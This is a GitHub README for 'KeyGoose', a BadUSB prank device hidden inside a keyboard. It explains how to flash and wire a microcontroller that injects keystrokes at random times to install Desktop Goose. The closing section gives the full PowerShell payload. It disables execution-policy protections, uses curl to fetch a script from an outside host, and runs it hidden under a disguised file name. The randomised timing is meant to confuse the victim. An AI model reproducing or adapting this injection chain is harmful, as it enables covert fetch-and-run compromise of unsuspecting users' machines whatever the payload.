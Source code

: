 # KeyGoose
###### Hacked By Me [Video 1](http://KeyGoose.HackedBy.Me "Video 1") Code
------------
##### KeyGoose is a fun implementation of a BadUSB, where a keyboard is "hacked" by wiring a microcontroller with custom firware to the inside of the keyboard. The microcontroller is designed to randomly deliver a payload (in the form of the [Desktop Goose Game](https://samperson.itch.io/desktop-goose "Desktop Goose Game")) to unsuspecting users in only 2.25 seconds.
------------
### What's Included in this Repository?
- A KeyGoose Parts List
- Written instructions as to how to create your own KeyGoose
- A technical explanation of how KeyGoose works
- The KeyGoose code (both the Driveby and Keyboard implementation) with which to flash the microcontroller
- The powershell script fetched and run by the KeyGoose upon payload injection

## Parts List
- A USB Keyboard
	- I recommend getting the cheapest keyboard you can find on Amazon. Not only will this bring-down the cost, but the cheaper keyboards tend to be more maleable and made of a weaker plastic, making the keyboard easier to manipulate when it comes to squeezing-in the microcontroller.
	- I also found that getting a keyboard that has a battery option was ideal, as it left a nice, open area in which to embed the microcontroller.
- A Microcontroller with USB Support
	- Any microcontroller should do, as long as it is small-enough and supports USB. In this project, I used a *Beetle ATmega32u4 Development Board*
- General Tools
	- Raspberry Pi with GPIO wires
		- You may use any other preferred method to flash the microcontroller, this is simply the option I went with, and will be explaining here.
	- Solder/Soldering Iron
	- Screw Driver
	- File Set
	- 26 AWG Wire
	- Wire Stripper

## Instructions
1. Flash the microcontroller with the provided code
1. Open the keyboard and wire the microcontroller to the controller in the Keyboard
1. Enjoy!

##### Step 1
Depending on where you bought your microcontroller, it may already come with a bootloader installed. For the purposes of this project, we're going to need to get rid of the bootloader, and flash the microcontroller with our code directly. In order to do so, you'll need to get some breadboard jumper wires and a Raspberry Pi.
> Please note: There are many other ways to flash the microcontroller, so if you'd prefer to use another method, feel free to do so!

In order to begin flashing the microcontroller with the Raspberry Pi, it's important to first identify the correct General Purpose Input Output pins to use. Lookup the pinout diagram for your microcontroller. The pinout of the Raspberry Pi can be found [here](https://pinout.xyz/# "here"). If you are using the Beetle that I used, then you may use the image below as a reference. I also found [this online article](https://ozzmaker.com/program-avr-using-raspberry-pi-gpio/ "this online article") to be extremely helpful.

![Raspberry Pi GPIO Photo](https://raw.githubusercontent.com/NoahTroy/KeyGoose/master/Raspberry%20Pi%20GPIO%20Photo.jpg "Raspberry Pi GPIO Photo")

Once we have the wiring all set, our next step is to dowload and install *avrdude* on the Raspberry Pi. This can be done by running:
`sudo apt install avrdude`
Now that avrdude is installed, it's important to edit the configuration file to support flashing over GPIO. Open the configuration file (`sudo nano /etc/avrdude.conf`) and find the commented-out programmer section with the ID: "linuxgpio". You're going to want to uncomment this entire section and replace the question marks with the values 4, 11, 10, and 9, in that order, to tell avrdude which GPIO pins to use. The uncommented section should now look like this:
```
programmer
  id    = "linuxgpio";
  desc  = "Use the Linux sysfs interface to bitbang GPIO lines";
  type  = "linuxgpio";
  reset = 4;
  sck   = 11;
  mosi  = 10;
  miso  = 9;
;
```
At this point, we are ready to flash the microcontroller. I was using an ATmega32U4 (the Beetle). If you are as well, then the following command should work just fine. If not, then make sure to modify the command appropriately for your hardware:
`sudo avrdude -c linuxgpio -p atmega32u4 -v -U flash:w:KeyGoose.hex`
If you wish to flash the Driveby version of KeyGoose, be sure to replace `KeyGoose.hex` with `DrivebyGoose.hex`, in the command above.
Congratulations, you have now successfully flashed the microcontroller!

##### Step 2
Before I share how I went about wiring the Keyboard and the microcontroller together, let me be clear: *I am not an electrical engineer. I can almost guarantee you that there is probably a better, more-technical way to do this. Although everything ended-up working fine for me, there's always the chance that this could be harmful to your devices. Proceed at your own risk.*

Alright, before we get to any of the soldering, the most important thing is to carefully open-up the keyboard, and identify where the USB controller is. Make sure you're looking for the point where the USB cable is *first* soldered into the PCB. For your sake, hopefully the keyboard manufacturer followed standards, labeling their PCB and correctly color-coding the wires. Right now, your job is to figure out which of the four solder points matches with which of the four (USB) pins on your microcontroller. If you're having trouble figuring it out, [this article](https://www.electroschematics.com/usb-how-things-work/ "this article") may help. You may also rewatch the [YouTube video](http://KeyGoose.HackedBy.Me "YouTube video") to see how I did it.
After you're certain that you have the correct match-up, strip the USB cabling and solder each of the four wires to the microcontroller, and the other ends to the corresponding point on the PCB. Once again, feel free to rewatch the [YouTube video](http://KeyGoose.HackedBy.Me "YouTube video") to see how I did it.
Finally, use the files to grind-out a spot within the keyboard to place the microcontroller. If you managed to get a keyboard that supports a battery, I recommend placing the microcontroller there, as there should be plenty of room, and you won't obstruct the normal operation of the keyboard.

##### Step 3
Enjoy! Just make sure that if you decide to use this keyboard to prank friends, family, or others, you do so responsibly, and you always have the necessary permissions first. If used improperly, you could have hacking charges filed against you.

> ##### If you do end up using this program, make sure you head over to Desktop Goose's [download page](https://samperson.itch.io/desktop-goose "Desktop Goose Game") first, and leave a tip for the developer. I did not create this game, and we owe all of the fun of this project to them. Out of respect to the developer, the Desktop Goose game installed by this code is an out of date version. If you wish to install the latest version, feel free to get it from the [download page](https://samperson.itch.io/desktop-goose "Desktop Goose Game"), and give your thanks to the developer.

## How Does KeyGoose Work?

KeyGoose works by emulating a USB Keyboard, and injecting keystrokes very quickly into the host computer at a designated time. Below, I'll outline the exact process that KeyGoose takes:
1. The keyboard emulation code initializes, and prepares itself to inject key presses.
1. A random seed is gathered by adding together the analog sensor values from A0 and A1.
1. A random value between 1 and 6 is generated. If the value is equal to 3, the code continues. If not, the program waits 30 minutes, before restarting from the beginning. This gives the code only about a 15% chance of running every 30 minutes and/or every time the user boots their computer.
1. If the program continued, a random time delay is generated between 4 and 20 minutes long. This time delay gives the computer time to finish booting, and maintains inconsistency, to further confuse the user.
1. After the time delay, the microcontroller sends the payload, disabling the actual keyboard while it does so.
	- The payload sent is a series of key combinations to open powershell as an administrator, and then run the following command:
	- `Set-ExecutionPolicy RemoteSigned -Force; cd C:\Windows\Temp; echo "Invoke-Expression 'curl -L http://KeyGoosePS1.HackedBy.Me -o d7893c3e.ps1; & .\d7893c3e.ps1; C:\Windows\Temp\tw-9dc-75c-5c965a3.tmp\DesktopGoose.exe; exit'" > DiagTrack_AlternativeTrace.ps1; start-process PowerShell.exe -arg $pwd\DiagTrack_AlternativeTrace.ps1 -WindowStyle Hidden; exit`
	- This command essentially downloads the PowerShell script into the Temp directory, gives it the necessary permissions to run, then runs it. This command is designed to be exeuted in the background though, so that the PowerShell window may be closed immediately, instead of having to wait on the download and execution of the script.
